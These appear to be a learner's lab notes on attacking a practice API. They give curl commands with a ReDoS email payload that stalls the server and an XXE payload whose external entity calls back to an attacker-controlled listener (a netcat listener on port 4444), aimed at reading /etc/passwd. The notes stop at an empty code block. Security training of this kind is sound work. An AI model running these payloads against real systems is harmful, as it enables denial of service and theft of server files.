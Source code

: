 ```Shell
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```
## Regular Expression Denial of Service (ReDoS)
#### Interact with the target
```Shell
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
```

Submit the above regex to https://regex101.com for an in-depth explanation. Then, submit the above regex to https://jex.im/regulex/ for a visualization.
![[regex dos.png]]
The second and third groups are doing bad iterative checks.
#### Submit the following value and see how long it takes the API to respond
```Shell
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
```
You will notice that the API takes several seconds to respond and that longer payloads increase the evaluation time.
## XML External Entity (XXE) Injection
#### Try authenticating over Burp Suite to `http://<target ip>:3001` and intercept the request
![[xxe inject intercept.png]]
- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.
### Crafting an exploit to read internal files, such as `/etc/passwd` on the server
#### Append a DOCTYPE to the request
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```
We defined a DTD called pwn, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity somename, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.
#### Start a netcat listener
```Shell
nc -lnvp 4444
```
#### Make an API call w/ the crafted payload
```Shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
```
***This won't work. Need to define external entity***
#### Recraft payload with the defined external entity
```Shell
```